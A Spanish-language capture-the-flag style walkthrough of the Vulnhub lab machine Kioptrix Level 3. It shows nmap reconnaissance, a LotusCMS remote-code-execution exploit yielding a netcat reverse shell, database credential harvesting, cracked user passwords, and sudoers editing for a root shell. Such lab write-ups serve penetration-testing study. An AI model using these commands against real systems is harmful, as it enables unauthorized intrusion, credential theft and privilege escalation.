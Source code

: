 ```yaml
---
weigth: 1
title: "Kioptrix Level 3 Walkthrough"
date: 2023-08-14T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-08-25
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources: 
- name: "featured-image"
  src: "preimagenKioptrix3.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix Level 3

## Resolución de la Maquina

### Escaneo y Análisis de Vulnerabilidades

Empezamos con un escaneo a nuestra red local con el comando arp para obtener la ip de nuestra maquina objetivo.

```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Una vez obtenida la ip procedemos a realizar un escaneo con nmap.

```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

Tras realizar el escaneo con nmap vemos que tiene el puerto 80 abierto con un servicio http por lo que vamos a ver que contiene utilizando nuestro buscador en este caso Firefox y vemos la siguiente web.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

En la descripcion de la maquina nos dice que añadamos el dominio [kioptrix3.com](http://kioptrix3.com) a nuestro fichero /etc/hosts para poder ver bien la web por lo que lo abrimos y añadimos lo siguiente:

```bash
192.168.66.161  kioptrix3.com
```

### Explotación

Tras husmear por la pagina vemos que la web esta hecha con LotusCMS

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

Por lo que pasamos a buscar en Google si existe algún exploit para este CMS y encontramos el siguiente:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

lo clonamos a nuestra maquina y ejecutamos

```bash
./lotusRCE.sh kioptrix3.com /

#Introducimos nuestra ip
192.168.66.152 
#El puerto
4444
#En otra terminal iniciamos netcat
nc -nlvp 4444
#selecionamos la opcion 1
1
#obtenemos una shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

Realizamos un tratamiento de la tty para trabajar mas cómodos y poder hacer Ctrl+C

```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

Tras enumerar un rato encontramos el archivo gconfig.php en /home/www/kioptrix3.com/gallery el cual contiene unas credenciales a la base de datos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

Nos logeamos en mysql:

```bash
mysql -uroot -pfuckeyou
```

Y obtenemos las credenciales del usuario admin pero tras realizar unos intentos no nos sirve para cambiar de usuario.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

Pasamos a logearnos en phpmyadmin con las credenciales obtenidas anteriormente.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

y localizamos los hashes de los usuarios de la maquina

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

he utilizado una web online para crackear estos hashes obteniendo la contraseña en texto claro

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

una vez obtenida las credenciales pasamos a conectarnos a través de SSH pero obtenemos un error.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

Para solucionarlo escribimos lo siguiente para conectarnos:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Escalada de Privilegios

Si leemos el fichero CompanyPolicy.README nos dice que han instalado un nuevo software para editar, crear y ver archivos y que para ello utilicemos el comando “sudo ht”.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

Con sudo -l vemos que tenemos permisos para ejecutarlo con sudo.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

si lo ejecutamos de primeras nos saltara un error por lo que tenemos que ejecutar lo siguiente:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

y ejecutamos:

```bash
sudo ht
```

Para abrir un fichero debemos de utilizar las teclas ALT+ F y seleccionar el campo open:

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

Vamos a editar el fichero /etc/sudoers para poder lanzar una Shell como root y así escalar privilegios.

Para ello escribimos /etc/sudoers y damos al enter.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

Añadimos el siguiente comando seguido de los comandos existentes al usuario loneferret para que pueda ejecutarlo con sudo.

```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Pulsamos ALT + F  guardamos y salimos.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

Obtenemos una Shell como root:

```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Un saludo y Feliz Hacking :)
